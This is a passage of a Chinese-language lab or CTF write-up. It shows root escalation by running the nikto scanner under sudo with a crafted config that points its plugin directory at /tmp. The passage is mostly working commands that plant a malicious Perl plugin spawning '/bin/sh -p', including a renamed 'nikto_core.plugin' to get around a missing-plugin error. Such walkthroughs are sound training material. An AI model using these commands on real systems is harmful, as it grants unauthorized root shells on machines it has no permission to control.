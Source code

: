 ![](/medias/Scanner/16.png)


```bash
printf 'BEGIN { exec "/bin/sh -p"; }\n1;\n' > /tmp/pwn.plugin
printf 'EXECDIR=/usr/share/nikto\nPLUGINDIR=/tmp\nDBDIR=/usr/share/nikto/databases\nTEMPLATEDIR=/usr/share/nikto/templates\n' > /tmp/nikto.conf
sudo /usr/bin/nikto -config /tmp/nikto.conf -Plugins pwn -h 127.0.0.1
```

又报错，/tmp目录找不到核心插件

![](/medias/Scanner/17.png)

把恶意插件命名为核心插件即可

```bash
printf 'BEGIN { exec "/bin/sh -p"; }\n1;\n' > /tmp/nikto_core.plugin
printf 'EXECDIR=/usr/share/nikto\nPLUGINDIR=/tmp\nDBDIR=/usr/share/nikto/databases\nTEMPLATEDIR=/usr/share/nikto/templates\n' > /tmp/nikto.conf
sudo /usr/bin/nikto -config /tmp/nikto.conf -h 127.0.0.1
```

![](/medias/Scanner/18.png)
